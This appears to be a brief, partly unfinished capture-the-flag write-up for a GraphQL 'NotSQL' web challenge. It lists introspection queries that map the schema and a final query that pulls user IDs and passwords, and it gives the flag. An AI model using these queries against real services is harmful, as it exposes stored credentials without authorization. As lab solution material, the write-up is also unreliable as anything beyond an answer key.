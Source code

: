 # Webhacking NotSQL Solution

In this challange we 
...
GraphQL

our payloads:
Write what i happening here... AFTER burpi :)
```
{__schema{types{name}}}

{__type(name:"User_d51e7f78cbb219316e0b7cfe1a64540a"){fields{name}}}

{__type(name:"Query"){fields{name}}}

{login_51b48f6f7e6947fba0a88a7147d54152{userid_a7fce99fa52d173843130a9620a787ce,passwd_e31db968948082b92e60411dd15a25cd}}
```


![FLAG](./images/NotSQL.png)

**Flag:** ***`FLAG{i_know_how_to_use_graphql}`*** 

